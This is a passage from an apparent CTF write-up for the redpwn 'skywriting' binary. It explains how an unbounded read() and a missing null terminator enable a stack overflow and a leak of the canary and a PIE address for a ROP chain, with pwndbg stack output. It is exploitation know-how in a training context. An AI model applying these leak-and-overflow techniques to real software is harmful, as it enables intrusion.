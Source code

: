 1. It's letting us key in way more input (0x200 bytes) than the destination buffer can store.
2. `read()` doesn't append a null byte at the end of the input.

The first flaw allows us to perform a buffer overflow exploit, and the second flaw would allow us to leak data from the stack as `printf` would continue printing until it detects a null byte. Another thing to note is that we can continue to leak as much data as we want and just key in `notflag{a_cloud_is_just_someone_elses_computer}` when we want to return from the function, ergo letting us trigger our ROP chain.

Since this binary has both `PIE` and a stack `canary`, we would need to leak an address with a known offset (to allow us to caculate other function addresses) and the canary value. Let's open the binary in gdb and see what we've got on the stack that we can work with.

```
pwndbg> bt
#0  0x00007ffff7af4081 in __GI___libc_read (fd=0, buf=0x7fffffffdae0, nbytes=512) at ../sysdeps/unix/sysv/linux/read.c:27
#1  0x0000555555554b0c in ?? ()
#2  0x00007ffff7a05b97 in __libc_start_main (main=0x555555554995, argc=1, argv=0x7fffffffdc58, init=<optimized out>, fini=<optimized out>, rtld_fini=<optimized out>, stack_end=0x7fffffffdc48) at ../csu/libc-start.c:310
#3  0x000055555555485a in ?? ()

pwndbg> stack 25
00:0000│ rsp  0x7fffffffdac8 —▸ 0x555555554b0c ◂— lea    rax, [rbp - 0x90]
01:0008│      0x7fffffffdad0 ◂— 0xffffffff
02:0010│      0x7fffffffdad8 ◂— 0x100000000
03:0018│ rsi  0x7fffffffdae0 ◂— 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\n'
... ↓
07:0038│      0x7fffffffdb00 ◂— 0xa4141414141 /* 'AAAAA\n' */
08:0040│      0x7fffffffdb08 ◂— 0x756e6547 /* 'Genu' */
09:0048│      0x7fffffffdb10 ◂— 9 /* '\t' */
0a:0050│      0x7fffffffdb18 —▸ 0x7ffff7dd7660 (dl_main) ◂— push   rbp
0b:0058│      0x7fffffffdb20 —▸ 0x7fffffffdb88 —▸ 0x7fffffffdc58 —▸ 0x7fffffffdfb7 ◂— '/vagrant/challenges/redpwn20/skywriting/bin/skywriting'
0c:0060│      0x7fffffffdb28 ◂— 0xf0b5ff
0d:0068│      0x7fffffffdb30 ◂— 0x1
0e:0070│      0x7fffffffdb38 —▸ 0x555555554bbd ◂— add    rbx, 1
0f:0078│      0x7fffffffdb40 —▸ 0x7ffff7de59a0 (_dl_fini) ◂— push   rbp
10:0080│      0x7fffffffdb48 ◂— 0x0
11:0088│      0x7fffffffdb50 —▸ 0x555555554b70 ◂— push   r15
12:0090│      0x7fffffffdb58 —▸ 0x555555554830 ◂— xor    ebp, ebp
13:0098│      0x7fffffffdb60 —▸ 0x7fffffffdc50 ◂— 0x1
14:00a0│      0x7fffffffdb68 ◂— 0xf7cf81bc93909400
15:00a8│ rbp  0x7fffffffdb70 —▸ 0x555555554b70 ◂— push   r15
16:00b0│      0x7fffffffdb78 —▸ 0x7ffff7a05b97 (__libc_start_main+231) ◂— mov    edi, eax
17:00b8│      0x7fffffffdb80 ◂— 0x1
18:00c0│      0x7fffffffdb88 —▸ 0x7fffffffdc58 —▸ 0x7fffffffdfb7 ◂— '/vagrant/challenges/redpwn20/skywriting/bin/skywriting'

pwndbg> canary
AT_RANDOM = 0x7fffffffdf99 # points to (not masked) global canary value
Canary    = 0xf7cf81bc93909400
Found valid canaries on the stacks:
00:0000│   0x7fffffffd438 ◂— 0xf7cf81bc93909400
00:0000│   0x7fffffffd9a8 ◂— 0xf7cf81bc93909400
00:0000│   0x7fffffffda08 ◂— 0xf7cf81bc93909400
00:0000│   0x7fffffffdb68 ◂— 0xf7cf81bc93909400
```
